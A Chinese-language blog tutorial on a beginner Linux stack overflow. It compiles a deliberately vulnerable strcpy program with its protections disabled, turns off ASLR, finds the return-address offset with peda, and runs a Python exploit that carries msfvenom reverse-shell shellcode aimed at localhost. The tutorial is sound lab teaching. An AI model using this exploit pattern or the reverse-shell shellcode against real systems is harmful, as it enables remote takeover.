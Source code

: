 ```yaml
---
layout: post
title: "[pwn] Linux Simple Stack overflow"
categories: "BinarySecurity"
---
```


#### 环境准备 ####

环境： kaili 2017.2 64位

工具： peda

简单的漏洞程序：

    #include <stdio.h>
    #include <string.h>
    
    void my_func(char *buff) {
    	char msg[256];
    	strcpy(msg, buff);
    }
    
    int main(int argc, char *argv[]) {
    	my_func(argv[1]);
    	return 0;   
    }

编译：

	gcc -g -fno-stack-protector -z execstack -o vul stack.c

关闭ASLR

	echo 0 > /proc/sys/kernel/randomize_va_space

通过peda的checksec可以查看我们加载程序启用了那些[安全机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)。

其他一些安全机制的控制：

- NX：`-z execstack / -z noexecstack` (关闭 / 开启)
- Canary：`-fno-stack-protector /-fstack-protector / -fstack-protector-all` (关闭 / 开启 / 全开启)
- PIE：`-no-pie / -pie` (关闭 / 开启)
- RELRO：`-z norelro / -z lazy / -z now` (关闭 / 部分开启 / 完全开启)

#### 0x00 漏洞原理 ####

由于用户的输入没有做长度控制，导致覆盖了栈上函数调用时的返回地址，在函数调用结束时`ret`指令的调用，控制了EIP从而导致任意指令执行，本次实例关闭了所有的安全机制为理想情况。

熟悉这个漏洞最关键的一点，熟悉栈的内存布局：

<pre>low addr +-->  +-------------------+
               |     .........     |
               +-------------------+
               |                   |
      ^        |                   |
      |        |                   |
      |        |                   |
      |        |                   |
      |        +-------------------+
      |        |      msg[256]     |
      |        +-------------------+
      |        |     saved EBP     |
      |        +-------------------+
      |        |    return addr    |
               +-------------------+ <--- call my_func
               |    arg0=argv[1]   |
               +-------------------+
               |     .........     |
high addr +--> +-------------------+</pre>

在上图中，可以看到进入`my_func`中时本地变量`msg[256]`的位置，在`my_func`函数中会使用不安全的函数`strcpy`，将用户的输入写入本地变量`msg`中，如果数据过长会覆盖`saved EBP`和`return addr`,这样就导致了函数返回地址被劫持，产生漏洞

#### 0x01 漏洞触发和利用 ####

核心思路为：

- 识别到漏洞点
- 找到偏移量
- 找到跳转地址
- shellcode

通过`gdb`加载漏洞程序`vul`,首先查看安全机制的开启情况：

![sov]({{ '/images/201803/sov_1_1.png' | prepend: site.baseurl }})

设置参数开始运行程序,由于我们看到msg本身为256长度的数组，我们设置我们的paylaod长度为300测试看是否能触发漏洞

![sov]({{ '/images/201803/sov_1_2.png' | prepend: site.baseurl }})

发生异常，此时执行的指令为`ret`(会将栈顶的数据放入EIP中)，此时查看`rsp`发现此时栈顶的数据为`0x41414141`

![sov]({{ '/images/201803/sov_1_3.png' | prepend: site.baseurl }})

我们使用`peda`内置的`pattern_create`和`pattern_offset`工具来寻找准确的偏移

![sov]({{ '/images/201803/sov_1_4.png' | prepend: site.baseurl }})
![sov]({{ '/images/201803/sov_1_5.png' | prepend: site.baseurl }})

我们确定了准确的偏移为264， 确定了偏移后我们要找到一个跳转的地址指向我们的payload， 我们这里简化直接通过gdb调试查看栈的地址(我们关闭了各种安全机制，所以这里地址不会变化)，可以发现在strcpy的参数中可以看到位置`0x7fffffffde80`就是`msg`的栈地址

![sov]({{ '/images/201803/sov_1_6.png' | prepend: site.baseurl }})

现在找到了跳转地址，还缺最后的shellcode，我们直接使用`msfvenom`来生成一个反向shell

	msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f python


所有都已经准备好，写一个简单的python脚本来整合我们所有的东西

<pre>#!/usr/bin/python
import struct

# msf reverse shell
shellcode =  ""  
shellcode += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
shellcode += "\xef\xff\xff\xff\x48\xbb\xd1\x6b\x1d\x16\x26\x86\x6e"
shellcode += "\xc3\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += "\xbb\x42\x45\x8f\x4c\x84\x31\xa9\xd0\x35\x12\x13\x6e"
shellcode += "\x11\x26\x7a\xd3\x6b\x0c\x4a\x59\x86\x6e\xc2\x80\x23"
shellcode += "\x94\xf0\x4c\x96\x34\xa9\xfb\x33\x12\x13\x4c\x85\x30"
shellcode += "\x8b\x2e\xa5\x77\x37\x7e\x89\x6b\xb6\x27\x01\x26\x4e"
shellcode += "\xbf\xce\xd5\xec\xb3\x02\x73\x39\x55\xee\x6e\x90\x99"
shellcode += "\xe2\xfa\x44\x71\xce\xe7\x25\xde\x6e\x1d\x16\x26\x86"
shellcode += "\x6e\xc3"

payload_len = 264 
nop_len = 20
shell_len = len(shellcode)
padding_len = payload_len - nop_len - shell_len
return_addr = struct.pack("<Q", 0x7fffffffde80)

nop = "\x90"*nop_len
padding = "B"*padding_len

print nop + shellcode + padding + return_addr</pre>

所有都准备好后，重新加载我们的payload

	gdb-peda$ r `python exp.py`

另外一个终端，成功接收到shell

![sov]({{ '/images/201803/sov_1_7.png' | prepend: site.baseurl }})

至此入门级别的stack buffoverflow漏洞利用结束

#### 0x02 总结 ####

目前这样的漏洞只能存在实验环境，适合做入门了解，真实的漏洞利用会相当复杂。 

KEEP GOING!!!


参考：

https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/
